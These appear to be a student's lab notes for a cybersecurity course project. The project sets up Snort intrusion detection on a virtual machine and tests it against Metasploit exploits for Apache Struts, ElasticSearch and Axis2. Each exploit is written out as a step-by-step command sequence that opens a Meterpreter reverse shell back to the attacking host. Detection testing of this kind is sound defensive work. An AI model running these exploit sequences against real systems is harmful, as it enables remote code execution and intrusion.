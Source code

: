 cybersecurity base project 2 notes

<REMOTEHOST> = 172.28.128.3
<LOCALHOST> = 172.28.128.4
<SNORTINTERFACE> = 2

 virtualbox-iso: The VM will be run headless, without a GUI. If you want to
 virtualbox-iso: view the screen of the VM, connect via VRDP without a password to
 virtualbox-iso: rdp://127.0.0.1:5985
 virtualbox-iso: Waiting 2m0s for boot...

=Install=
1. Clone
2. vagrant plugin install vagrant-omnibus
3. Vagrant up
=Configuration=
1. Install Snort 2.9.9.0 & snortrules-snapshot-2976
2. Install WinPCap 4.1.1
3. Snort conf changes
4. Test with C:\Snort\bin\snort.exe -c C:\Snort\etc\snort.conf -i <SNORTINTERFACE> -k none -T
5. Ping test works with snort.exe -c C:\Snort\etc\snort.conf -i <SNORTINTERFACE> -A console -k none

Test ping rule local.rules:  alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"ICMP test"; sid:10000001; rev:001;)

LHOST 172.28.128.4
RHOST 172.28.128.3

Ruleset: snortrules-snapshot-2976

Discovered
1. CVE-2016-3087 - Apache Struts REST Plugin With Dynamic Method Invocation Remote Code Execution
	Prerequisites: Add 8282 to snort.conf HTTP_PORTS
	1. use exploit/multi/http/struts_dmi_rest_exec
	2. set RHOST <REMOTEHOST>
	3. set RPORT 8282
	4. set payload java/meterpreter/reverse_tcp
	5. set LHOST <LOCALHOST>
	6. run
	7. sysinfo
2. CVE-2014-3120 - ElasticSearch Dynamic Script Arbritrary Java Execution
	Preqrequisites: Uncomment line 812 in server-other.rules ("SERVER-OTHER ElasticSearch script remote code execution attempt")
	1. use exploit/multi/elasticsearch/script_mvel_rce
	2. set RHOST <REMOTEHOST>
	3. set payload java/meterpreter/reverse_tcp
	4. set LHOST <LOCALHOST>
	5. run
	6. sysinfo

3. CVE-2010-0219 - AXIS2 / SAP BusinessObjects Authenticated Code Execution (via SOAP)
	1. use exploit/multi/http/axis2_deployer
	2. set RHOST <REMOTEHOST>
	3. set RPORT 8282
	4. set payload java/meterpreter/reverse_tcp
	5. set LHOST <LOCALHOST>
	5. run
	6. sysinfo
Undiscovered:
4. CVE-2016-2019 - 
Exploit failed: NoMethodError undefined method '[]' for nil:nilClass
FIX:
https://github.com/rapid7/metasploit-framework/commit/f838c9990fa3a7858297ada47288cc67f04d87e4